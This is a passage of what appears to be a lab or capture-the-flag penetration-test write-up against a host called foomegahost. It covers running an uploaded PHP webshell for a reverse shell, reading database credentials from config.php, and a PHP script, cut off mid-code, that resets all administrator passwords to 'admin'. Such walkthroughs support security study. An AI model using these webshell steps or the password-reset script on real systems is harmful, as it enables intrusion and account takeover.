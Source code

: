 ![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f1c6a9bb-83f5-4b5e-80d5-f5c5c84a4589/Untitled.png)

#### Launching the PHP Shell

To run our PHP webshell, we first need to go to the tickets area and then click on the attachments. This will allow us to obtain a reverse shell back on our Kali machine.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/dfc324fb-e2fe-4f75-8066-ab1d6f37d15b/Untitled.png)

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6bcc3bbc-6c6b-472f-a3fc-95e68aa34514/Untitled.png)

After gaining access to the Kali machine's shell, we can begin enumerating and searching for interesting files, such as `config.php`.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3be2da10-bd41-4554-ac03-cf89c0ef8522/Untitled.png)

#### Reading `config.php`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7db5ae10-e62a-4130-969c-a835d33da9a6/Untitled.png)

### Access to Intranet Area

#### [fmh-intranetarea.foomegahost.com](http://fmh-intranetarea.foomegahost.com)

According to the information found in the `config.php` file, the subdomain `fmh-interanetarea.` is mentioned. Upon visiting the `fmh-interanetarea.` subdomain, we were able to access its webpage. The screenshots are attached below. This subdomain seems to be for intranet login.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3e589a89-ada3-4df0-b075-5c9f57d73722/Untitled.png)

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7a86beb3-4ec0-460e-8d97-91b605d0e48e/Untitled.png)

### Admin Access

After identifying the LFI vulnerability and the `config.php` file that contains the details to connect to `MySQL`, we will attempt to change the password of users with `Administrator` rights, identified by the ID `1`. We will write a `.php` script that changes the password to `admin`, and upload it to change the passwords.

```clojure
<?php

// Define database connection parameters
$config['DB']['USERS']['dbname'] = "foomegahost";
$config['DB']['USERS']['dbhostname'] = "127.0.0.1:6603";
$config['DB']['USERS']['user'] = "res_foomegahost";
$config['DB']['USERS']['password'] = "C8COcl84QSbM9hL7EC7F";

// Create database connection
$conn = mysqli_connect($config['DB']['USERS']['dbhostname'], $config['DB']['USERS']['user'], $config['DB']['USERS']['password'], $config['DB']['USERS']['dbname']);

// Check if connection was successful
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}

// Update password for all rows where role=1
$sql = "UPDATE user SET password='21232f297a57a5a743894a0e4a801fc3' WHERE role=1";
$result = mysqli_query($conn, $sql);

// Check if update was successful
if ($result) {
```